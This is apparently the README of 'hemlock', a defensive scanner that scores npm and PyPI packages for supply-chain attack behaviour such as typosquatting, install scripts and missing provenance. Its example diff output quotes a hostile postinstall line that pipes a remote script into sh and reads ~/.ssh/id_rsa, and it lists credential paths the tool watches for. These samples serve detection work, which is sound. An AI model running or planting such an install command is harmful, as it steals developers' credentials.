

<div align="center">



**Poison hemlock looks like parsley.**

A supply-chain scanner for npm and PyPI that flags packages *behaving* like an
attack, instead of waiting for one to get a CVE number.

[](https://github.com/xzycd/hemlock/actions/workflows/ci.yml)
[](https://pypi.org/project/hemlock-scan/)
[](https://www.python.org/downloads/)
[](LICENSE)
[](#zero-dependencies-on-purpose)

</div>

---

Socrates was executed with poison hemlock. People still eat it by accident,
because it is nearly indistinguishable from wild parsley: same height, same
feathery leaves, same little white flowers. The tell is a set of purple
blotches on the stem, and you only see those if you know to look.

That is the entire problem with a package registry. `colorz` looks like
`colors`. A patch release of `chalk` looks like every other patch release of
`chalk`. By the time a malicious package has a CVE, it has been installed for
days and your credentials are already somewhere else.

Conventional scanners answer *"does this package have a known vulnerability?"*
That is a useful question with a fatal lag. Someone has to get hurt first, then
report it, then wait for an advisory. hemlock asks a different one:

> **Does this package behave like something that is about to attack me?**

You can answer that on the day a package is published, from metadata that is
already public and free.

---

## What it looks like

```
  hemlock  mal ────────────────────────────────────  4 packages · 1 manifest · online · 17ms

  ╭─ MALWARE ────────────────────────────────────────────────────────────────────────────────╮
  │  chalk@5.6.1 is on a public malware list. Remove it, then rotate every credential the    │
  │  install could reach.                                                                    │
  ╰──────────────────────────────────────────────────────────────────────────────────────────╯

  1 package is on a public malware list.

  ▌ ██████████ MAL   npm   chalk 5.6.1                                                malware
  ▌ ├ HEM701  This exact version is reported as malware
  ▌ │         MAL-2025-46969 (GHSA-2v46-p5h4-248w): Malicious code in chalk (npm)
  ▌ └ HEM601  Published without build provenance
  ▌           published 2025-09-08 with no attestation on the registry
  ▌   reported malicious, so no score was calculated
  ▌   via  app-kit › build-tools › chalk
  ▌   fix  Remove it, then rotate every credential the install could reach.

  ▌ ███░░░░░░░   30  npm   express 4.18.2                                               medium
  ▌ └ HEM702  Published advisory against this version
  ▌           2 advisories: GHSA-qw6h-vgh9-j6wx, GHSA-rv95-896h-c2vc
  ▌   intel 30 → 30
  ▌   via  app-kit › build-tools › express
  ▌   fix  Upgrade past the affected range. Every id above resolves at osv.dev.

  ▌ ██░░░░░░░░   20  npm   build-tools 2.1.0                                               low
  ▌ └ HEM504  Almost nobody installs this
  ▌           207 downloads in the last week
  ▌   registry 20 → 20
  ▌   via  app-kit › build-tools
  ▌   fix  Find out which dependency asked for this before trusting it.

  ████████████░░░░░░  4 scanned · 1 critical · 1 medium · 1 low
  › hemlock explain HEM701   to read why any of these rules exist
```

That is a real result, not a mockup. `chalk@5.6.1` is the version that shipped
a crypto-address swapper in September 2025 after a maintainer was phished.

Every finding shows the evidence that produced it, and every package shows the
arithmetic behind its score. There is no model and no vendor feed. If you
disagree with a number, the line underneath tells you which weight to change.

The coloured rail down the left is one package. The bar is its score, so you
can rank eight results without reading a single number. The box is reserved for
the one rule that is not a judgement call: if everything is in a box, nothing
is.

## Install

```bash
pipx install hemlock-scan
```

Or without pipx, into any environment you like:

```bash
pip install hemlock-scan
```

Python 3.11 or newer, and nothing else. To try it without installing anything:

```bash
pipx run hemlock-scan scan .
```

Every release is published from a tagged commit by a GitHub Actions workflow
with no API token involved, and carries a PEP 740 attestation naming the
workflow that built it. Point hemlock at itself and it will tell you so:

```bash
hemlock check pypi:hemlock-scan --online
```

A bare name is read as npm unless you prefix it, which is why that one says
`pypi:`.

## Use

```bash
hemlock init                      # write a config file and a CI workflow
hemlock scan .                    # offline, fast, no network at all
hemlock scan . --online           # add registry, provenance and OSV checks
hemlock check chalk@5.6.1         # judge a package before you install it
hemlock diff --since origin/main  # score only what a branch adds
hemlock why left-pad              # who asked for this package
hemlock baseline .                # accept today's findings, fail only on new ones
hemlock explain HEM701            # why a rule exists and what to do about it
hemlock rules                     # every check, with its weight
hemlock update                    # check for a newer release
```

Any scan or diff can come out as `--format terminal`, `markdown`, `json` or
`sarif`.

It finds its own work. Point it at a directory and it walks for
`package-lock.json`, `yarn.lock`, `package.json`, `requirements.txt`,
`poetry.lock`, `Pipfile.lock` and `pyproject.toml`. If `node_modules` or a
virtualenv is present it reads the installed source too, which is the only
place real install scripts live.

### Before you install it

A scan tells you about a decision you already made. `hemlock check` answers
the question you have a minute earlier, when a README or a colleague has just
told you to install something.

```bash
hemlock check chalk@5.6.1 --online
hemlock check pypi:requests==2.32.3 --online
hemlock check @types/node@20.1.0 lodash@4.17.21
```

An unprefixed name is treated as npm. Put `pypi:` in front of it, or pass
`--ecosystem pypi`, for the other one. Packages you named are always listed,
clean ones included, because "nothing flagged" is not an answer to a question
about three specific packages.

Offline this is a name check and nothing more, and the report says so on its
second line. There is no package.json, no source tree and no lockfile entry
behind a name typed into a shell, so the install-time, code-shape and pinning
rules have nothing to read. `--online` is where it earns its keep: osv.dev,
build provenance and the publisher history all key off the name and version
alone.

```
  hemlock  chalk@5.6.1 ──────────────────────  1 package · online · 1.4s

  ╭─ MALWARE ────────────────────────────────────────────────────────────╮
  │  chalk@5.6.1 is on a public malware list. Remove it, then rotate     │
  │  every credential the install could reach.                          │
  ╰──────────────────────────────────────────────────────────────────────╯

  ▌ ██████████ MAL   npm   chalk 5.6.1                          malware
  ▌ ├ HEM701  This exact version is reported as malware
  ▌ │         MAL-2025-46969 (GHSA-2v46-p5h4-248w): Malicious code in chalk (npm)
  ▌ └ HEM601  Published without build provenance
```

The exit code follows the same `--fail-on` threshold as everything else,
which defaults to high. A typosquat scores medium, so gate a pre-install
check with `--fail-on medium` if you want it to stop you.

### Keeping it current

```bash
hemlock update           # check, show the command, ask before running it
hemlock update --check   # report only
hemlock update --yes     # skip the question
```

It works out how this copy was installed, whether by pipx, pip or a git
checkout, and builds the right command for that. It does not run it until you
say so. A tool whose entire argument is that running somebody else's install
step is the risk does not get to make a quiet exception for its own, so there
is no silent self-update and no download piped into an interpreter. With no
terminal to answer at, it prints the command and stops.

The upgrade path follows wherever the release actually is. `hemlock-scan` is
not on PyPI yet, so today it points at the repository; the day the first
release lands, PyPI answers and it switches over with nothing to edit.

### Reviewing a change, not a codebase

A full scan describes a repository. When you are reviewing a pull request you
want the other thing: what did this change let in? Everything already in the
lockfile was somebody else's decision, and re-reading all of it on every PR is
how people learn to skim the output.

```
$ hemlock diff --since HEAD

  hemlock diff  HEAD → working tree ───────────────────  2 changed · 1 removed · 9 unchanged

  1 package reads credentials from an install script.

  ▌ ██████████  100  ~  npm   colorz 1.0.5  (was 1.0.4)                               critical
  ▌ ├ HEM204  Install script touches credentials
  ▌ │         postinstall references .ssh/id_, AWS_SECRET, id_rsa, ~/.ssh
  ▌ ├ HEM202  Install script downloads and executes
  ▌ │         postinstall: curl -s https://cdn.example.invalid/setup.sh | sh -; cat
  ▌ │         ~/.ssh/id_rsa…
  ▌ ├ HEM101  Name is a near-miss of a popular package
  ▌ │         1 edit away from "colors"
  ▌ └ HEM201  Runs a script at install time
  ▌           postinstall: curl -s https://cdn.example.invalid/setup.sh | sh -; cat
  ▌           ~/.ssh/id_rsa…
  ▌   install 75 + naming 30 = 105  ×1.25 (2 categories agree)  →  100 capped
  ▌   fix  Treat every credential it could reach as exposed. Rotate first, investigate
  ▌        after.

  ▌ ██████░░░░   62  +  npm   reqeusts 1.0.0                                              high
  ▌ ├ HEM101  Name is a near-miss of a popular package
  ▌ │         2 edits away from "request"
  ▌ └ HEM402  Lockfile entry has no integrity hash
  ▌           reqeusts@1.0.0 pinned without a hash
  ▌   naming 30 + lockfile 20 = 50  ×1.25 (2 categories agree)  →  62
  ▌   fix  Compare the name against what you meant to install, then find out which
  ▌        dependency asked for it.

  ▌ ░░░░░░░░░░       -  npm   express-js                                               removed

  ██████████████████  2 scanned · 1 critical · 1 high
```

`+` is new, `~` moved, `-` left. `--since` takes any git ref. Two lockfile
paths work too, for comparing artifacts that never shared a repository.

### Saying it in the pull request

A red X on a CI job tells a reviewer that something is wrong and nothing else.
`--format markdown` writes the result as a comment, and the workflow from
`hemlock init` edits the same comment on every push rather than stacking a new
one. What lands on the pull request looks like this:

> [!CAUTION]
> `chalk@5.6.1` is on a public malware list. Remove and rotate every credential the install could reach.

| | | Package | Score | Why |
|:--:|:--:|---|--:|---|
| 🔴 | `+` | [`chalk@5.6.1`](https://www.npmjs.com/package/chalk/v/5.6.1) | **malware** | This exact version is reported as malware, and 1 more |
| 🟡 | `~` | [`express@4.18.2`](https://www.npmjs.com/package/express/v/4.18.2) | 30 | Published advisory against this version |

<sub>2 changed · 1 critical · 1 medium · online · hemlock 0.4.0</sub>

The evidence for every row sits under a `<details>` fold, so the comment stays
one screen tall on a pull request that added forty packages. Every package name
links to its registry page, because the next thing anyone does with a name they
do not recognise is search for it.

### Adopting it on a codebase that already has a backlog

Point a new scanner at an established project and it returns four hundred
findings. Nobody triages four hundred findings, so the tool gets switched off,
or wired into CI with the threshold set so high it never fires, which is the
same thing with extra steps.

```bash
hemlock baseline .
```

That records what was true on the day you adopted it. From then on a scan
reports only findings that are new, and a committed baseline applies
automatically so CI stops failing on the backlog without anyone remembering a
flag. The accepted findings are still counted in the summary, marked as known,
and `--ignore-baseline` brings them all back.

The fingerprint includes the version, so a dependency that moves re-raises
everything about itself. Accepting a finding in March says nothing about the
release that landed last night.

### Who asked for this?

Several rules end by telling you to work out which dependency pulled something
in. That was poor advice from a tool that could not answer it.

```
$ hemlock why chalk --online

  chalk 5.6.1  npm  ·  package-lock.json
  ██████████   malware

  reached through
    app-kit
    └ build-tools
      └ chalk

  flagged
    HEM701  This exact version is reported as malware
            MAL-2025-46969 (GHSA-2v46-p5h4-248w): Malicious code in chalk (npm)
    HEM601  Published without build provenance
            published 2025-09-08 with no attestation on the registry

  fix  Remove it, then rotate every credential the install could reach.
```

Depth is the thing you are looking for, so depth is what the indentation
shows. Routes are built from the lockfiles hemlock already read, following
npm's own resolution order, so a nested copy of a package wins over a hoisted
one. Transitive findings in the normal scan view carry the same route on a
`via` line.

### The part worth trying first

Every rule can explain itself, at length, with the incident that motivated it:

```
$ hemlock explain HEM502

  HEM502  Published by a different account than usual
  Registry trust · weight 45 · needs --online

  npm records which account uploaded each individual version. This version
  came from an account that did not publish the ones before it.

  Sometimes that is a new co-maintainer or a release bot. Sometimes it is the
  entire attack: the event-stream backdoor arrived when the original author
  handed the package to a volunteer who had asked politely for it, and who
  then added a dependency that stole Bitcoin wallets. The takeover of
  ua-parser-js looked the same from the registry's side.

  The question this raises is answerable in about a minute. Does the new
  publisher appear in the project's repository? Did a maintainer announce the
  handover? If the answer to both is no, do not install it.
```

A scanner that only prints rule IDs teaches you nothing and trains you to
ignore it. Every finding here ends with the command that explains itself.

## What it checks

Twenty-five rules in seven categories. Fifteen need no network.

Identity and naming, for packages pretending to be another one:

| | | |
|---|---|---|
| `HEM101` | Name is a near-miss of a popular package | 30 |
| `HEM102` | Popular name plus a plausible-looking affix | 22 |
| `HEM103` | Name contains a look-alike character | 55 |
| `HEM104` | Unscoped copy of a scoped package name | 28 |

Install-time execution, for whatever runs before you have imported anything:

| | | |
|---|---|---|
| `HEM201` | Runs a script at install time | 18 |
| `HEM202` | Install script downloads and executes | 45 |
| `HEM203` | Install script decodes an encoded payload | 40 |
| `HEM204` | Install script touches credentials | 50 |

Code shape, for whether anyone is able to read it:

| | | |
|---|---|---|
| `HEM301` | Source looks deliberately unreadable | 35 |
| `HEM302` | Builds code at runtime | 25 |

Pinning and integrity, for whether you control what you install:

| | | |
|---|---|---|
| `HEM401` | Version is not pinned | 12 |
| `HEM402` | Lockfile entry has no integrity hash | 20 |
| `HEM403` | Resolved over plain HTTP | 30 |
| `HEM404` | Installed from outside the registry | 22 |
| `HEM405` | An additional package index is configured | 25 |

Registry trust, for what the registry already knows (needs `--online`):

| | | |
|---|---|---|
| `HEM501` | This version was published very recently | 25 |
| `HEM502` | Published by a different account than usual | 45 |
| `HEM503` | Deprecated or withdrawn | 25 |
| `HEM504` | Almost nobody installs this | 20 |
| `HEM505` | No source repository | 15 |
| `HEM506` | Release size jumped sharply | 25 |

Build provenance, for whether the artifact can be traced to source
(needs `--online`):

| | | |
|---|---|---|
| `HEM601` | Published without build provenance | 20 |
| `HEM602` | Provenance points at a different repository | 55 |

Public intelligence, for what somebody else has already established
(needs `--online`):

| | | |
|---|---|---|
| `HEM701` | This exact version is reported as malware | settles it |
| `HEM702` | Published advisory against this version | 30 |

### The three worth knowing about

**`HEM502`** reads a field nobody looks at. npm records which account
published each *individual version*, so an account takeover is visible in
public metadata the moment it happens, before any advisory and before anyone
unpacks the tarball. Nothing has to go wrong first for that signal to appear.

**`HEM602`** compares the repository a package sends you to against the
repository its signed attestation says it was actually built from. That is the
shape of an attack that survives review: you read clean code in one place and
install a build made somewhere else. Before attestations existed there was no
way to notice.

**`HEM701`** is the only rule that is not an inference. osv.dev aggregates the
OpenSSF malicious-packages feed, which held roughly 226,000 records across npm
and PyPI when this was written. If a record names the exact version installed,
that is a report somebody wrote after analysing the package, so hemlock repeats
it and stops scoring.

It also checks whether the record still stands. In May 2026 OSV withdrew 157
malware reports after an automated classifier raised them against trusted
packages, and every tool that had already ingested them kept failing builds
over nothing. hemlock skips withdrawn records.

## Why provenance became a signal in 2026

`HEM601` fires when a release has no attestation tying it to a repository, a
workflow and a commit. That check would have been noise two years ago, because
almost nothing had one.

It is not noise now. npm began revoking classic publish tokens in December 2025
and finished in early 2026, which leaves trusted publishing as the ordinary way
to ship, and trusted publishing emits SLSA provenance automatically. PyPI has
carried PEP 740 attestations since late 2024. A release made after those landed
with nothing attached was published some other way.

hemlock only applies the rule to releases published after 2025-01-01, since
older ones predate the tooling and are not judged for it. The weight is low
because a maintainer releasing from a laptop is ordinary. What it costs you is
the ability to answer the next question, which is whether the tarball matches
the tag.

## How the score works

Three rules, and you can check all of them by hand.

Weights add up: each rule that fires contributes its weight.

Repeats within a category count for less. Four findings about an install script
are still one observation about an install script, so a category scores its
heaviest hit plus 40% of the rest. Without this, anything with a busy
`postinstall` maxes out immediately.

Agreement across categories counts for more. A near-miss name is a coincidence.
A near-miss name that *also* runs an install hook that *also* ships obfuscated
code is three independent reasons to worry, so the base gets a 25% bump per
additional category involved.

```
install 75 + naming 30 = 105  ×1.25 (2 categories agree)  →  100 capped
```

Bands: critical 85+, high 60 to 84, medium 30 to 59, low 1 to 29.

One rule opts out of all of it. `HEM701` reports a published finding rather
than an inference of hemlock's own, so it settles the verdict at 100 by itself
and the arithmetic has nothing useful to add. Malware is not a judgement call
to be weighed against a missing integrity hash.

Most other rules are calibrated to be non-damning alone. `HEM201`, meaning the
package runs an install script, is weight 18, because thousands of honest
packages compile native modules and `HEM201` on its own is not news. It matters
when something else about the package is already odd, and the arithmetic is
built so that it only matters then.

## In CI

`hemlock init` writes a workflow that does the right thing on both events, or
you can write it yourself. Gate a pull request on what it introduces rather
than on the whole tree:

```yaml
- run: pipx install hemlock-scan
- run: hemlock diff --since origin/${{ github.base_ref }} --online --fail-on high
```

Or scan everything on a schedule:

```yaml
- run: hemlock scan . --online --fail-on high
```

Exit codes: `0` when nothing reaches the threshold, `1` when something does,
`2` when the scan could not run. Set the threshold with
`--fail-on low|medium|high|critical|never`.

When a scan exits `1` it says so at the bottom, and names the packages
responsible:

```
  ██████████████████  24 scanned · 2 medium · 22 low
  exit 1  2 packages at medium or above: python3-dateutil, requsts
```

A build that fails without telling you which line failed it is a build people
learn to rerun.

To leave the result on the pull request instead of only in the job log, write
the Markdown report and hand it to `gh`. The comment carries a hidden marker,
so `--edit-last` finds the previous one and replaces it:

```yaml
- run: hemlock diff --since origin/${{ github.base_ref }} --format markdown > hemlock.md
- run: gh pr comment ${{ github.event.number }} --body-file hemlock.md --edit-last --create-if-none
  env:
    GH_TOKEN: ${{ github.token }}
```

For GitHub code scanning, emit SARIF and hand it to the upload action, which
puts findings inline on the pull request that introduced them:

```yaml
- run: hemlock scan . --format sarif > hemlock.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: hemlock.sarif
```

## Configuration

Optional, in `.hemlock.toml` at the project root:

```toml
fail_on = "high"
fresh_days = 14

[[ignore]]
rule = "HEM201"
package = "esbuild"
reason = "compiles a native binary at install time; reviewed 2026-07-14"
expires = "2026-12-31"
```

Suppressions take a reason and an expiry, and hemlock reports the expired ones
back to you rather than honouring them forever. An ignore with no end date
outlives whoever added it, and that is how a scanner quietly stops finding
anything.

## About the output

The terminal view is the product, so it degrades in three independent
directions rather than all at once.

Colour goes from 24-bit to the 256 palette to nothing, decided by `COLORTERM`,
`TERM`, `NO_COLOR` and whether stdout is a terminal at all. `--color always`
beats the environment, because a flag typed just now is a more specific
instruction than a variable exported months ago.

Box drawing falls back to ASCII when the encoding cannot promise UTF-8. That
path is tested rather than hoped for: a test renders every view with the ASCII
table forced and asserts that not one Unicode glyph survives.

Hyperlinks appear only where something can click them. Package names open their
registry page and advisory ids open osv.dev, over OSC 8, which terminals that
do not implement it ignore. Files and pipes do not ignore it, so links switch
off the moment stdout is not a terminal.

None of that is allowed to move a column. Every row is placed by measuring
visible width with the escapes stripped, and a test renders the same scan with
links on and off and asserts the two come out the same shape.

Severity is one warm ramp rather than a spread of hues: grey for low, straw
for medium, ember for high, red for critical. An earlier version put magenta,
orange, yellow, teal and green on the same screen, and five hues cannot be
ranked at a glance, so you ended up reading the numbers, which is what the
colour was there to save you from. Purple is the brand and never means a
severity, so anything purple is the tool talking about itself. Low sits close
to grey on purpose: a wall of low findings is background, and the one high
finding behind it is what you opened the report for.

The wordmark animates in about a quarter of a second, on `hemlock` with no
arguments and at the top of an interactive scan: the letters sweep in left to
right, then the face lands. It is off under CI, off without a terminal, off
without colour, off when stdout is redirected, and off with `--no-logo` or
`HEMLOCK_NO_LOGO`. Anything that delays a pipe or corrupts a redirect has
stopped being decoration and started being a bug.

It also steps down instead of wrapping. Block letters do not degrade when they
overflow, they shred: the back half of every row lands under the front half
and the whole thing reads as noise. So there are four sizes. Wide terminals
get the wordmark and the face, narrower ones drop the face, narrower still
halves the letters, and under about 34 columns it gives up and prints the
name. The report and the mark ask different questions about width, too: a
report takes the overflow rather than let its columns collapse, so it floors
at 60, while the mark needs the terminal's real width or it never learns it is
narrow.

### It has to work on a real monorepo

A 55,000 package lockfile scans in **1.7 seconds** offline, in about 128 MB.

Getting there was one change. Comparing every package name against the whole
typosquat corpus was 93% of the runtime, so two prefilters run before the
dynamic programming: two strings within two edits differ in length by at most
two, and differ in at most two distinct characters, because each character
present in one and missing from the other costs an edit of its own. Both are
sound rather than heuristic, and a test checks every single-edit mutation of
every corpus entry against the brute-force sweep they replaced. That took
50,000 packages from 17.9s to 1.7s.

| packages | before | after |
|---:|---:|---:|
| 1,000 | 0.41s | 0.09s |
| 10,000 | 3.45s | 0.38s |
| 50,000 | 17.88s | 1.71s |

The report has the same problem in a different form. Those 55,000 packages
produced 4,745 findings, which sounds like a lot until you notice they came in
**nine distinct shapes**. So results group by their whole finding signature,
not by a single rule, and the report came down from 999 lines to 69.

One rule flagging thirty packages is one observation about a project, not
thirty, so it prints once with all thirty names rather than thirty times with
five lines each:

```
  ▌ █░░░░░░░░░   12  HEM401  Version is not pinned                          22 packages
  ▌   pkg0, pkg1, pkg10, pkg11, pkg12, pkg13, pkg14, pkg15, pkg16, pkg17, pkg18,
  ▌   pkg19, pkg2, pkg20, pkg21, pkg3, pkg4, pkg5, pkg6, pkg7, pkg8, pkg9
  ▌   fix  Pin the version and commit a lockfile.
```

Nothing is folded away that you are meant to act on. Reported malware and
anything critical always stand alone, however many of them there are. Below
that, a group carries one score because every member of it has the same one:
a group keys on the whole finding signature, and a score is computed from the
rule set, so folding loses nothing.

The names are what matter, and there the rule is strict. A group at or above
your `--fail-on` threshold lists every package it holds, however long that
runs. Only groups below the threshold cap the list, and they say how many were
held back rather than trailing off. Sixteen byte-identical high blocks is not
sixteen findings, it is one finding and fifteen scrolls, but the sixteen names
still have to be on the page.

A running scan draws a line that keeps moving:

```
  ⠴ Grazing…            ██████████░░░░  2038/3000  ·  applying rules  ·  592ms
```

The spinner's colour walks up the purple ramp and back, the word changes every
five to ten seconds, and the bar's leading cell is lit separately from its body
because a block that holds still reads as a stalled job.

What moves stays honest about what it means. The bar is real progress through a
real list and never advances on its own. The spinner and the word are time
passing and claim nothing about how far along anything is, which is the point:
they are there so a scan waiting twelve seconds on osv.dev does not look like a
scan that has died. That is also why the display runs on its own thread rather
than being redrawn from inside the work loop, where a single slow package used
to freeze it.

Nothing is drawn for the first 150ms, so a scan that finishes in three
milliseconds goes past in silence and only a project big enough to make you
wait ever animates. It writes to stderr, never to stdout, so `--format json`
stays parseable and a redirect stays clean.

## Zero dependencies, on purpose

hemlock installs nothing. Standard library only, on Python 3.11+.

This is not minimalism for its own sake. A tool whose job is to tell you that
your dependencies are dangerous should not arrive with fourteen of its own,
each one a transitive install script and a maintainer account that can be
phished. The threat model includes hemlock.

The same reasoning shapes the default. `hemlock scan` makes no network calls at
all, so nothing about your dependency graph leaves the machine unless you ask
for `--online`. That flag talks only to the public endpoints of
`registry.npmjs.org`, `pypi.org` and `api.osv.dev`, with no account and no API
key, and it sends no telemetry anywhere. Responses are cached under
`~/.cache/hemlock` for six hours, and OSV takes one batched request for the
whole dependency list rather than one per package.

## What this is not

Worth being clear about, because the gaps are the interesting part.

- It is not a CVE scanner. `HEM702` reports advisories because the same OSV
  request that finds malware returns them for free. For thorough
  known-vulnerability coverage use `osv-scanner`, `pip-audit` or `npm audit`.
  They answer a different question and the two are complementary.
- It is not a sandbox. Every rule is static. Nothing is executed, and a
  sufficiently careful payload will not look like any of the patterns here.
- It does not verify signatures. `HEM601` and `HEM602` read what the registry
  publishes about an attestation; they do not check the Sigstore bundle
  cryptographically. That is a real gap and it is on the roadmap.
- It will produce false positives. Install scripts are common and normal, as
  are single-maintainer packages and recent releases. That is why nothing is
  called critical on one signal alone, and why suppressions are first-class.
- It covers npm and PyPI only. Those are where the volume is. Cargo, Go modules
  and Maven are the same shape of problem and would slot into `hemlock/`
  alongside `npm.py` and `pypi.py`.
- It cannot prove a package is safe. Nothing can. A clean scan means nothing
  here matched, and that is all it means.

## How it fits together

```
hemlock/
  cli.py         argument parsing, exit codes
  scan.py        find manifests, resolve packages, run rules, score
  diff.py        the same rules over only what a change added or moved
  graph.py       who asked for a package, from the lockfiles already parsed
  baseline.py    accepting what was already there
  brand.py       the wordmark
  model.py       Package, Finding, Verdict, and the rule registry
  rules.py       every check, one function each
  score.py       the arithmetic above, and only that
  npm.py         package-lock, yarn.lock, package.json, node_modules
  pypi.py        requirements, poetry.lock, Pipfile.lock, pyproject
  http.py        one cached fetcher, shared by everything online
  registry.py    npm and PyPI metadata
  intel.py       OSV: malware reports and advisories, one batched call
  provenance.py  SLSA and PEP 740 attestations, normalised to one shape
  policy.py      .hemlock.toml
  report.py      what goes on the page: terminal, Markdown, JSON, SARIF
  ui.py          how it looks: colour depth, gauges, rails, panels, links
  motion.py      the live line during a scan, on its own thread
  update.py      is there a newer release, and how was this one installed
  data.py        typosquat corpus, homoglyphs, credential paths
tools/
  banner.py      renders docs/banner.svg from the same glyph table
```

A rule is a function that takes a package and yields evidence strings. Yielding
nothing means it did not fire. Weights and prose live in the decorator, so
adding a check is one function and one docstring, and tuning the scoring never
means touching detection logic:

```python
@rule("HEM403", title="Resolved over plain HTTP", category="lockfile", weight=30,
      explain="""The artifact is fetched over HTTP. Anyone on the path between
      the build machine and the registry can replace it...""")
def insecure_transport(pkg, ctx):
    if pkg.resolved and pkg.resolved.startswith("http://"):
        yield pkg.resolved
```

## Development

```bash
git clone https://github.com/xzycd/hemlock
cd hemlock
pip install -e ".[dev]"
pytest -q
```

No test touches the network. The online layer is exercised against a stub that
serves canned registry and OSV documents, which is also where the awkward cases
live: a withdrawn malware report, a repository URL written five different ways,
an attestation payload that will not decode.

`examples/compromised-app` is an inert project built to be caught. Every
dependency in it is planted to trip a specific rule, the payloads are random
characters, and the URLs point at `.invalid` domains that cannot resolve. CI
asserts that it still comes back critical, so a rule that silently stops firing
breaks the build instead of the next release. See
[examples/README.md](examples/README.md) for the full map of what trips what.

## Releasing

Tagging a commit publishes it. There is no API token in this repository and
there is not meant to be one: `.github/workflows/release.yml` uses PyPI trusted
publishing, so the upload is signed with a short-lived identity minted for that
one workflow run and there is no long-lived secret to steal.

The same run attaches PEP 740 attestations. A tool that flags packages for
shipping without build provenance has no business shipping without build
provenance, so hemlock passes its own `HEM601`.

The workflow refuses to publish if the tag does not match `__version__`, if the
tests fail, or if the known-bad fixture has stopped being flagged.

```bash
git tag v0.4.0 && git push origin v0.4.0
```

## Roadmap

- Verify Sigstore bundles rather than trusting the registry's summary of them
- Cargo and Go module support
- A cooldown policy: fail on any dependency published less than N days ago,
  which closes most of the account-takeover window on its own
- Compare the published artifact against the tagged source. `HEM602` gets
  close by checking which repository built it, but not yet whether the bytes
  match what is in that repository

## License

MIT. See [LICENSE](LICENSE).
